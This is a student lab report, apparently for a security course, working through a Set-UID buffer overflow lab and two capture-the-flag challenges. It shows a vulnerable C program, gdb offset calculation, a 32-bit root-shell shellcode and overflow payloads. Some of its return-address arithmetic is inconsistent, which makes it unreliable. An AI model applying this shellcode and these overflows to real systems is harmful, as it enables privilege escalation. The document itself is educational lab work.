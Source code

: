 # Buffer Overflow Attack Lab (Set-UID Version)

## Task 1
On the terminal, after running the a32.out or the a64.out files, a shell is generated. Initially this shell is placed inside the folder that contains those same files and allows us to write any shellcode and execute it.

## Task 2
We are supposed to run an exploit in the given C file:

#include <stdlib.h>
#include <stdio.h>
#include <string.h>

/* Changing this size will change the layout of the stack.
 * Instructors can change this value each year, so students
 * won't be able to use the solutions from the past.
 */
 
#ifndef BUF_SIZE
#define BUF_SIZE 100
#endif

void dummy_function(char *str);

int bof(char *str)
{
    char buffer[BUF_SIZE];

    // The following statement has a buffer overflow problem 
    strcpy(buffer, str);       

    return 1;
}

int main(int argc, char **argv)
{
    char str[517];
    FILE *badfile;

    badfile = fopen("badfile", "r"); 
    if (!badfile) {
       perror("Opening badfile"); exit(1);
    }

    int length = fread(str, sizeof(char), 517, badfile);
    printf("Input size: %d\n", length);
    dummy_function(str);
    fprintf(stdout, "==== Returned Properly ====\n");
    return 1;
}

// This function is used to insert a stack frame of size 
// 1000 (approximately) between main's and bof's stack frames. 
// The function itself does not do anything. 
void dummy_function(char *str)
{
    char dummy_buffer[1000];
    memset(dummy_buffer, 0, 1000);
    bof(str);
}

The file has a buffer overflow vunerability in the strcpy command because the function doesn't check for boundaries, that means that if the program is a root owned set-UID file we can feed the function a string that makes it spawn a root shell

For this to be exploitable it is needed for the OS safeguards be turned off and for the the code to be compiled with the following flags 

-z execstack -fno-stack-protector

## Task 3

First we need to find the address of where our program is running in the memory. In order to do that we have to compile the program on debug mode (-g option). When debugging we will be able to find the ebp and offset so we can have the right buffer payload to run our program. 

Running our program in debug mode:
`gdb stack-L1-dbg`

Then we set a breakpoint on bof and then run the program:

`b bof`
output: Breakpoint 1 at 0x12ad: file stack.c, line 16.

`run`
The program stops when hits the bof function because of the breakpoint that we created. The values of the stack frame for this function will be used on the badfile. 

`p $ebp`
output: $1 = (void *) 0xffffcfb8

`p &buffer`
output: $2 = (char (*)[100]) 0xffffcb3c

As we can see, the frame pointer is on 0xffffcfb8, so the return address must be stores at 0xffffcfb8+4, then the first address we can jump is 0xffffcfb8+8. 
We need to know where we should store the return address in the input in order for it to be stored in the return address filed in the slack. We can find that just by doing the diference between return and buffer start address.
`p/d 0xffffcfb8 - 0xffffcb3c`
output: $3 = 1148

As we can see the distance between the return address and the start buffer is 1148+4 so the return address must be storires with offset of 1152 in badfile.

**We now have to edit the file exploit.py to fill the content for badfile.** 

**We used a 32 bit shellcode:**

shellcode= (
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
"\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
"\xd2\x31\xc0\xb0\x0b\xcd\x80" 
).encode('latin-1')

**we know that our string size is 517, so we should start at 517 minus the lenght of our shellcode**

start = 517-len(shellcode)   

**The content should be the shellcode itself**

content[start: start+len(shellcode)] = shellcode

**The return adress is given by the buffer and the ebp:**

buff =  0xffffcb3c

ebp =   0xffffcfb8

offset = ebp - buff + 4

ret = buff + ebp + 200

By compiling and executing our program exploit.py, we will generate the badfile content. 
After running our program` ./stack` we shoud be able to gain control as a root, that is, a shell prompt will be available. 

# Challenge 1
Analyzing the source code of the program in question, you can see that it reads a file identified by the string meme_file.

```c
char meme_file[8] = "mem.txt\0";
char buffer[20];
```

By modifying the content of this string, which by definition has the value mem.txt\0, it is possible to control the file that is being read.

To do this, it is possible to take advantage of a buffer-overflow present in the program.

The buffer string has 20 characters allocated, however, 28 characters are read by scanf.
The extra 8 characters that we write will be inserted into the meme_file string.

So, just write any 20 characters (bytes) in the terminal and add "flag.txt" at the end, so that the contents of meme_file will change and the file to be read will be the one containing the flag.

```python
r.sendline(b"aaaaaaaaaaaaaaaaaaaaflag.txt")
```
## Result:
By running python3 exploit-example.py

![imagem CMD](../desafio1.jpg)

# Challenge 2

In the new version of the code, an extra check (val == 0xfefc2223) has been added to make it more difficult to read the file, however, this does not completely mitigate the problem as it is still possible to bypass it using a similar technique as in the previous challenge.

```c
char val[4] = "\xef\xbe\xad\xde";
...
if(*(int*)val == 0xfefc2223) { ... } else { ... }
```

The only added difficulty to this challenge that challenge 1 didn't have, was to write the Hex into the sendline to be accepted and use flag.txt afterwards.

```python
r.sendline(b'12345678912345678912\x23\x22\xfc\xfeflag.txt')
```

## Result:
By running python3 exploit-example.py

![imagem CMD](../desafio2.jpg)
